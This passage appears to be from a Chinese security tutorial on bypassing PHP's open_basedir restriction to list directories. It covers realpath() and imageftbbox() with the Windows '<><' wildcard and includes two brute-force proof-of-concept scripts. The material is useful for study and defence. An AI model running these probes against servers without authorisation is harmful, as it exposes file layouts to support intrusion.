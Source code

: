 # 利用realpath()绕过
realpath()函数和SplFileInfo::getRealPath()作用类似。同样是可以得到绝对路径。函数定义如下:
```php
realpath ( string $path ) : string
```
当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。
同样，对于这个函数，我们在Windows下仍然能够使用通配符<>来列目录，有P神的脚本如下:
```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```
realpath()和SplFileInfo::getRealPath()的区别在于,realpath()只有在启用了open_basedir()限制的情况下才能使用这种思路爆目录，而SplFileInfo::getRealPath()可以无视是否开启open_basedir进行列目录(当然，没有开启open_basedir也没必要花这么大的功夫来列目录了)

# 利用imageftbbox()绕过
GD库一般是PHP必备的扩展库之一，当中的imageftbbox()函数也可以起到像realpath()一样的列目录效果。  
其思想也和open_basedir类似。这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。
有POC如下:
```php
?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```
